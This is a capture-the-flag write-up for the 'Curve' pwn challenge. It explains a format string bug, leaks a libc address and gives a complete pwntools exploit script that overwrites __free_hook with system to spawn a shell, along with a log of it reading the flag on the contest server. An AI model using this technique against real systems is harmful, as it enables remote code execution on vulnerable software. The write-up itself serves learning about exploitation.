 ## Curve

> Points: 398
>
> Solves: 28

### Description:
One of the hardest parts of making a contest is making sure that it has a good curve aka a good problem difficulty distribution. This lazily made problem was made to make the beginning pwn curve a little less steep. 

Connect with "nc 143.198.127.103 42004".

Author: Rythm

### Attachments:
```
curve.zip
```

## Analysis:

This binary can be input 3 times, the first time it is output with `puts`, the second time there is no output, and the third time it is displayed directly with` printf`. Therefore, there is a vulnerability of `FSB (Format String Bug)` in the third input.
However, since this binary is `Full RELRO`,` GOT` cannot be rewritten with `FSB`. The method of rewriting the return address with `FSB` does not have enough read input size.
Also, since the third input is written to the area allocated by `malloc` in the heap, the address that can be used by` FSB` cannot be specified.

```
undefined8 main(void)

{
  char *__format;
  long in_FS_OFFSET;
  char local_98 [136];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  __format = (char *)malloc(0x80);
  puts("Oh no! Evil Morty is attempting to open the central finite curve!");
  puts("You get three inputs to try to stop him.\n");
  puts("Input 1:");
  read(0,local_98,0xb0);
  puts(local_98);
  puts("Input 2:");
  read(0,local_98,0x80);
  puts("\nInput 3:");
  read(0,__format,0x80);
  printf(__format);　　　　　　　　　<=========== There is a `FSB` vulnerability here
  free(__format);
  puts("\nLol how could inputting strings stop the central finite curve.");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

The result of checksec. We can see that it is `Full RELRO`.
```
$ checksec curve
[*] '/home/mito/CTF/PBjar_CTF_2021/Pwn_Curve/curve/curve'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Since the character string input in `Input 2` is output as `0x4141414141414141` at the 8th position of `Input 3`, We can see that the value of` index` is `8`.
```
Input 2:
AAAAAAAA

Input 3:
BBBBBBBB,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
BBBBBBBB,0x55555555a2a0,0x80,0x7ffff7ef5e8e,0xa,0x7ffff7fc5be0,(nil),0x55555555a2a0,0x4141414141414141,0xa,(nil),(nil),(nil),(nil),(nil)

```

## Solution:

First, the libc address leak can be done by entering a `0x98` size string in` Input 1` to leak the address `__libc_start_main + 234`. We can calculate the base address of libc.

```
gdb-peda$ x/80gx 0x7fffffffdec0
0x7fffffffdec0:	0x0000000000000000	0x000055555555a2a0
0x7fffffffded0:	0x4141414141414141	0x4141414141414141
0x7fffffffdee0:	0x4141414141414141	0x0000000000000a61
0x7fffffffdef0:	0x0000000000000000	0x0000000000000000
0x7fffffffdf00:	0x0000000000000000	0x0000000000000000
0x7fffffffdf10:	0x0000000000f0b5ff	0x00000000000000c2
0x7fffffffdf20:	0x00007fffffffdf47	0x0000555555555325
0x7fffffffdf30:	0x0000000000000000	0x0000000000000000
0x7fffffffdf40:	0x00005555555552e0	0x00005555555550b0
0x7fffffffdf50:	0x00007fffffffe050	0x6b35ac597c192200
0x7fffffffdf60:	0x00005555555552e0	0x00007ffff7e2dd0a  <=== Leak this `0x00007ffff7e2dd0a (__ libc_start_main + 234)`
0x7fffffffdf70:	0x00007fffffffe058	0x0000000100000000
```

Since the shell is started by calling `free (__ format)` at the end, it is done by writing the address of the `system` function to ` __free_hook` using FSB.
At this time, first write `/bin/sh` so that it is in the form of free ('/bin/sh; FSB string'). Then, when we call free (), it will be in the form of system (`/bin/sh; ...'), so we can start the shell.

Also, `Input 2` writes the address of `__free_hook`, and `INPUT 3` writes the character string of `FSB`. Since the input size of `Input 2` and` Input 3` is as large as `0x80`, we can write the same character string created by `fmtstr_payload` to `Input 2` and` Input 3` as shown below.

```
index = 8
writes = {free_hook: system_addr}
buf = b"/bin/sh;" + fmtstr_payload(index+1, writes, numbwritten=8, write_size='short')
```

`fmtstr_payload` creates a string like the one below.
```
    00000000  2f 62 69 6e  2f 73 68 3b  25 36 35 30  39 36 63 25  │/bin│/sh;│%650│96c%│
    00000010  31 34 24 6c  6c 6e 25 33  33 31 39 39  63 25 31 35  │14$l│ln%3│3199│c%15│
    00000020  24 68 6e 25  33 30 36 39  33 63 25 31  36 24 68 6e  │$hn%│3069│3c%1│6$hn│
    00000030  70 8e fc f7  ff 7f 00 00  74 8e fc f7  ff 7f 00 00  │p···│····│t···│····│
    00000040  72 8e fc f7  ff 7f 00 00  0a                        │r···│····│·│
```

## Exploit code:
```python
from pwn import *

context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './curve'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "143.198.127.103"
  PORT = 42004
  s = remote(HOST, PORT)
  libc = ELF("./libc-2.31.so")
else:
  s = process(BINARY)
  libc = elf.libc
  #s = process(BINARY, env={'LD_PRELOAD': './libc-2.31.so'})
  #libc = ELF("./libc-2.31.so")

# libc leak
s.sendlineafter("Input 1:\n", "A"*0x98)
s.recvuntil("A"*0x98)
libc_leak = u64(s.recvuntil("\nI")[:-2] + b"\x00\x00")
libc_base = libc_leak - libc.sym.__libc_start_main - 234
free_hook = libc_base + libc.sym.__free_hook
system_addr = libc_base + libc.sym.system
print("libc_leak =", hex(libc_leak))
print("libc_base =", hex(libc_base))

index = 8

# Write system address in __free_hook to call system('/bin/sh')
writes = {free_hook: system_addr}
buf = b"/bin/sh;" + fmtstr_payload(index+1, writes, numbwritten=8, write_size='short')

s.sendlineafter("2:\n", buf)
s.sendlineafter("3:\n", buf)

s.interactive()
```

## Results:
```bash
mito@ubuntu:~/CTF/PBjar_CTF_2021/Pwn_Curve/curve$ python3 solve_fmtstr.py r
[*] '/home/mito/CTF/PBjar_CTF_2021/Pwn_Curve/curve/curve'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 143.198.127.103 on port 42004: Done
[*] '/home/mito/CTF/PBjar_CTF_2021/Pwn_Curve/curve/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc_leak = 0x7f2d588ced0a
libc_base = 0x7f2d588a8000
[*] Switching to interactive mode
/bin/sh;
...
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ ls -l
total 2028
lrwxrwxrwx   1 root root       7 Aug 27 07:16 bin -> usr/bin
drwxr-xr-x   2 root root    4096 Apr 15  2020 boot
drwxr-xr-x   5 root root     340 Sep 17 04:48 dev
drwxr-xr-x   1 root root    4096 Sep 17 04:48 etc
-rwxr-xr-x   1 root root      64 Sep 17 04:28 flag.txt
drwxr-xr-x   1 root root    4096 Sep 17 04:47 home
-rwxr-xr-x   1 root root  177928 Sep 17 04:28 ld-2.31.so
lrwxrwxrwx   1 root root       7 Aug 27 07:16 lib -> usr/lib
lrwxrwxrwx   1 root root       9 Aug 27 07:16 lib32 -> usr/lib32
lrwxrwxrwx   1 root root       9 Aug 27 07:16 lib64 -> usr/lib64
-rwxr-xr-x   1 root root 1839792 Sep 17 04:28 libc-2.31.so
lrwxrwxrwx   1 root root      10 Aug 27 07:16 libx32 -> usr/libx32
drwxr-xr-x   2 root root    4096 Aug 27 07:16 media
drwxr-xr-x   2 root root    4096 Aug 27 07:16 mnt
drwxr-xr-x   2 root root    4096 Aug 27 07:16 opt
dr-xr-xr-x 262 root root       0 Sep 17 04:48 proc
drwx------   2 root root    4096 Aug 27 07:27 root
drwxr-xr-x   5 root root    4096 Aug 27 07:27 run
lrwxrwxrwx   1 root root       8 Aug 27 07:16 sbin -> usr/sbin
drwxr-xr-x   2 root root    4096 Aug 27 07:16 srv
dr-xr-xr-x  13 root root       0 Sep 17 04:48 sys
drwxrwxrwt   1 root root    4096 Sep 17 04:38 tmp
drwxr-xr-x   1 root root    4096 Aug 27 07:16 usr
drwxr-xr-x   1 root root    4096 Aug 27 07:27 var
$ cat flag.txt
flag{n0w_y0ur3_3v1l_m0rty_t00_s00n3r_0r_l4t3r_w3_4ll_4r3_s4dg3}
```

## Reference:

https://inaz2.hatenablog.com/entry/2014/04/20/041453